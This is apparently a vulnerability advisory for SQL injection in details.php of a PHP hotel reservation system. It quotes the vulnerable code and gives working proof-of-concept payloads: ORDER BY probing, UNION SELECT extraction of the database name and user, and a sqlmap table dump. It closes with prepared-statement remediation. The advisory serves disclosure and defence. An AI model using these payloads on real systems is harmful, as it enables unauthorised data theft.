




# Hotel And Tourism Reservation System has SQL Injection vulnerability in details.php

## Supplier

https://code-projects.org/hotel-and-tourism-reservation-in-php-with-source-code/

## Vulnerability file

```
details.php
```

## describe

In `details.php`, there are multiple unrestricted SQL injection vulnerabilities in the Online Hotel Booking System (HT-SQL). The vulnerability manifests in two code paths:

**1. GET-based SQL injection in `$_GET['room']` (Line 9-10)**

The `room` parameter is taken directly from the URL query string and concatenated into a SELECT query without any sanitization, escaping, or parameterized query protection. This parameter is also reused in subsequent UPDATE and SELECT queries (lines 39, 45), meaning the same injection point affects multiple database operations.

**2. POST-based SQL injection in reservation form (Line 33)**

The `fullname`, `in_date`, `out_date`, `phone`, `people`, `email` parameters from `$_POST` are directly concatenated into an INSERT SQL query. An attacker can craft a malicious POST request (bypassing the frontend form) to inject arbitrary SQL commands into the `reservations` table or extract data via error-based or blind SQL techniques.

Both vulnerabilities can be triggered by **any unauthenticated remote attacker** — no login session is required.

**Code analysis**

The vulnerable code in `details.php`:

```php
<?php
if(isset($_GET['room'])) {
  $roomID = $_GET['room'];
  // Line 10: GET-based SQL injection
  $select = $db->query("SELECT * FROM rooms WHERE id = '{$roomID}' ");

  if(isset($_POST['checkin'])) {
    $name = $_POST['fullname'];
    $checkin = $_POST['in_date'];
    $checkout = $_POST['out_date'];
    $phone = $_POST['phone'];
    $people = $_POST['people'];
    $email = $_POST['email'];
    $r_number = mysqli_fetch_assoc($s);
    $r = $r_number['room_number'];

    // Line 33: POST-based SQL injection in INSERT
    $insert = "INSERT INTO `reservations` (`id`, `name`, `checkin`, `checkout`,
                `phone`, `people`, `email`, `room`) VALUES (NULL, '$name',
                '$checkin', '$checkout', '$phone', '$people', '$email', '$r')";
    $save = $db->query($insert);

    // Line 39 & 45: roomID reused in additional queries
    $rs = $db->query("SELECT * FROM rooms WHERE id = '{$roomID}' ");
    $update = $db->query("UPDATE rooms SET `rooms`='$newRooms' WHERE id = '{$roomID}' ");
  }
}
?>
```

The `$_GET['room']` and all `$_POST` booking fields are placed directly into SQL query strings without any validation, prepared statements, or escaping functions such as `mysqli_real_escape_string()`.

## POC

### Environment

The target application is a PHP-based Hotel Booking System. No authentication is required to access `details.php`.

### 1. Manual Column Count Detection (ORDER BY)

Use the following payload to determine the number of columns in the `rooms` table:

```
http://[target]/details.php?room=1' ORDER BY 7--
```

The page renders normally with 7 columns, but fails with `ORDER BY 8--`, confirming 7 columns exist in the result set.



### 2. UNION-based SQL Injection

Extract data by injecting a UNION SELECT query:

```
http://[target]/details.php?room=1' UNION SELECT 1,2,3,4,5,6,7--
```

The page displays the injected values (1,2,3,4,5,6,7) in the room detail fields, confirming the injection point is exploitable via UNION.



### 3. Database Fingerprinting (Manual)

Extract the current database name and database user:

```
http://[target]/details.php?room=1' UNION SELECT 1,database(),user(),4,5,6,7--
```

This reveals the database name and the user account under which the application connects to MySQL.



### 4. Automated Exploitation with sqlmap

Dump all table names using sqlmap:

```
sqlmap -u "http://[target]/details.php?room=1" --batch -D ht --tables
```

sqlmap confirms the injection point and enumerates all tables in the database, including user credentials and reservation data.



## Impact

Successful exploitation allows an attacker to:

- **Extract all room data** including pricing, availability, and details
- **Dump database credentials** and other sensitive information from the entire database
- **Modify reservation records** via the INSERT injection point, creating fraudulent bookings or overwriting legitimate ones
- **Access other database tables** via UNION-based or blind SQL injection, potentially compromising the entire application backend

## Remediation

1. **Use intval() for numeric IDs** — the `room` parameter should be cast to an integer:

```php
$roomID = intval($_GET['room']);
```

2. **Use Prepared Statements** for all queries:

```php
// SELECT with prepared statement
$stmt = $db->prepare("SELECT * FROM rooms WHERE id = ?");
$stmt->bind_param("i", $roomID);
$stmt->execute();
$select = $stmt->get_result();

// INSERT with prepared statement
$stmt = $db->prepare("INSERT INTO `reservations` (`name`, `checkin`, `checkout`,
                      `phone`, `people`, `email`, `room`)
                      VALUES (?, ?, ?, ?, ?, ?, ?)");
$stmt->bind_param("ssssiss", $name, $checkin, $checkout, $phone, $people, $email, $r);
$stmt->execute();
```

3. **Disable direct error output** in production by turning off `display_errors` and using custom error handlers instead of exposing raw database errors to the client.
